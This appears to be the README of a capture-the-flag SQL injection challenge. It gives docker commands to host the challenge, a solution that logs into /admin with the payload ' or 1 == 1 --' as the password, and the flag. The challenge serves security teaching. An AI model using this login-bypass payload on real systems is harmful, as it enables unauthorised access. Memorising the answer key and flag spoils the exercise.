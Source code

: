 # SQL Injection

Hosting:

```bash
docker build -t sqli .
docker run -p 8080:80 sqli
```

Solution:

1. Navigate to <url>/admin
2. Username: `admin` Password: `' or 1 == 1 --'`

Flag: `glitch{MayTheF0rceB3W1thY0u}`

